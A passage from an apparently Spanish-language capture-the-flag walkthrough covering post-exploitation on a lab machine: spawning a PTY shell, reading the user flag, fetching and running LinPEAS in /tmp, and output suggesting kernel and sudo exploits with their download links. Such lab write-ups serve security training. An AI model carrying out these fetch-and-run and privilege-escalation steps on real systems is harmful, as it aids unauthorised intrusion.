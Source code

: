 Con esto, habremos obtenido acceso a la máquina

# Privilege escalation
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
En el directorio /home del usuario saket encontraremos la primera bandera, user.txt.
```bash
www-data@ubuntu:/$ cd /home/saket
cd /home/saket
www-data@ubuntu:/home/saket$ ls
ls
enc  password.txt  user.txt
www-data@ubuntu:/home/saket$ cat user.txt 
cat user.txt
af3c658dcf9d7190da3153519c003456
```
Para conseguir acceso al usuario root, utilizaremos [LinPEAS](https://github.com/peass-ng/PEASS-ng) (Linux Privilege Escalation Awesome Script), una herramienta de enumeración empleada en auditorías de seguridad para identificar posibles vectores de escalación de privilegios en sistemas Linux
```bash
cd /tmp
```
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
Le damos permisos de ejecución
```bash
chmod +x linpeas.sh
```
La ejecutamos
```bash
./linpeas.sh
```
NOs dara mucha informacion, entre ella podremos ver que la maquina es vulnerable a varios exploits
```bash
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                           
cat: write error: Broken pipe                                                                                                                                
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2017-7308] af_packet
```